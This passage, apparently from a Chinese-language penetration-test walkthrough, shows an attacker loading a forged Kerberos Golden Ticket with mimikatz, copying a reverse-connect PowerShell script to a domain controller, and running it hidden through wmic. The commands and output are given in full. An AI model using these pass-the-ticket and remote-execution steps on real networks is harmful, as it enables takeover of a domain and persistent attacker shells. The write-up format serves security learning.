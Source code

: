 这将保证它在重新启动时通过SRVWSUS执行本地SYSTEM权限的远程shell。

最后，我们测试了我们拿到的Golden Ticket，还记得admin.krb这个文件吗？

通过SRVWSUS本地系统管理员权限的shell，我们下载了admin.krb，配置了端口转发，并将带有回连指令的脚本r3.ps1上传到SRVWSUS的9000端口。

现在我们在session中加载Ticket：



```
PS C:tmp&gt;Invoke-mymy -command ‘”kerberos::ptt admin.krb”‘
.#####. mimikatz 2.1 (x64) built on Nov 10 2016 15:31:14
.## ^ ##. “A La Vie, A L’Amour”
## /  ## /* * *
##  / ## Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
‘## v ##’ http://blog.gentilkiwi.com/mimikatz (oe.eo)
‘#####’ with 20 modules * * */
mimikatz(powershell) # kerberos::ptt admin.krb
* File: ‘admin.krb’: OK
Using klist it is possible to list our loaded Kerberos tokens:
PS C:tmp&gt; klist
Current LogonId is 0:0x3e7
Cached Tickets: (1)
#0&gt; Client: Administrator @ supercompany.LOCAL
Server: krbtgt/supercompany.LOCAL @ supercompany.LOCAL
KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
Ticket Flags 0x40e00000 -&gt; forwardable renewable initial pre_authent
Start Time: 2/17/2017 1:02:10 (local)
End Time: 2/17/2027 1:02:10 (local)
Renew Time: 2/18/2027 1:02:10 (local)
Session Key Type: RSADSI RC4-HMAC(NT)
Cache Flags: 0x1 -&gt; PRIMARY
Kdc Called:
```

成功了，Ticket成功加载了！

对于下一个操作，我们使用Windows wmic.exe实用程序，它是一个WMI的命令行接口程序，允许通过Kerberos凭证来访问远程系统。

我们在域控制器上复制了r3.ps1，没有任何问题，只需将管理员的Ticket加载到我们的会话中！

```
PS C:tmp&gt;copy c:tmpr3.ps1 \SRVDC1C$windowstempr3.ps1″
```

然后运行：



```
PS C:tmp&gt; wmic /authority:”kerberos:SUPERCOMPANYSRVDC1″ /node:SRVDC1 process call create “powershell -executionpolicy bypass -windowstyle hidden -f c:windowstempr3.ps1”
Executing (Win32_Process)-&gt;Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
ProcessId = 4528;
ReturnValue = 0;
};
```
